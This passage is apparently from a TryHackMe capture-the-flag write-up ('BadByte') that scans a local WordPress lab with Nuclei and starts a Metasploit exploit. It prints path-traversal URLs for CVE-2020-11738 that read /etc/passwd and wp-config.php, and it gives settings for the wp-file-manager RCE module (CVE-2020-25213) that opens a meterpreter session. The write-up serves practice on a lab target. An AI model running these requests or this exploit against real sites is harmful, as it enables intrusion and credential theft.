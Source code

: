 We can use [Nuclei](../../3%20-%20Tags/Hacking%20Tools/Nuclei.md) to scan the target for vulnerabilities :

```bash
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/BadByte]
└─$ nuclei -u http://127.0.0.1:8080

                     __     _
   ____  __  _______/ /__  (_)
  / __ \/ / / / ___/ / _ \/ /
 / / / / /_/ / /__/ /  __/ /
/_/ /_/\__,_/\___/_/\___/_/   v3.4.6

                projectdiscovery.io

'[CVE-2020-25213]' [http] [critical] http://127.0.0.1:8080/wp-content/plugins/wp-file-manager/lib/php/connector.minimal.php

'[CVE-2020-11738]' [http] [high] http://127.0.0.1:8080/wp-admin/admin-ajax.php?action=duplicator_download&file=..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd

'[CVE-2020-11738]' [http] [high] http://127.0.0.1:8080/wp-admin/admin-ajax.php?action=duplicator_download&file=%2F..%2Fwp-config.php

[metatag-cms] [http] [info] http://127.0.0.1:8080 ["WordPress 5.3.2"]
[wordpress-theme-detect:twentytwentyone] [http] [info] http://127.0.0.1:8080
[addeventlistener-detect] [http] [info] http://127.0.0.1:8080
[apache-detect] [http] [info] http://127.0.0.1:8080 ["Apache/2.4.41 (Ubuntu)"]
[wordpress-login] [http] [info] http://127.0.0.1:8080/wp-login.php
[apache-server-status] [http] [low] http://127.0.0.1:8080/server-status
[wp-license-file] [http] [info] http://127.0.0.1:8080/license.txt
[wordpress-detect:version_by_css] [http] [info] http://127.0.0.1:8080/wp-admin/install.php ["5.3.2"]
[wordpress-readme-file] [http] [info] http://127.0.0.1:8080/readme.html

```

[CVE-2020-11738](../../3%20-%20Tags/CVEs/CVE-2020-11738.md)    Directory Traversal Vulnerability

[CVE-2020-25213](../../3%20-%20Tags/CVEs/CVE-2020-25213.md)    RCE  

## Metasploit 

We use [Metasploit](../../3%20-%20Tags/Hacking%20Tools/Metasploit.md) to search and set the [Exploit](../../3%20-%20Tags/Hacking%20Concepts/Exploit.md) and run it.

You have to set RHOSTS as 127.0.0.1 ,rport as 8080 , LHOST as your tun0 IP and run the exploit. If everything is fine, you will be prompted with the meterpreter session.

```bash
msf6 > search cve-2020-25213                                                                                                                                                            
                                                                                                                                                                                          
Matching Modules                                                                                                                                                                          
================                                                                                                                                                                          
                                                                                                                                                                                          
   #  Name                                    Disclosure Date  Rank    Check  Description                                                                                                 
   -  ----                                    ---------------  ----    -----  -----------                                                                                                 
   0  exploit/multi/http/wp_file_manager_rce  2020-09-09       normal  Yes    WordPress File Manager Unauthenticated Remote Code Execution                                                
                                                                                                                                                                                          
                                                                                                                                                                                          
```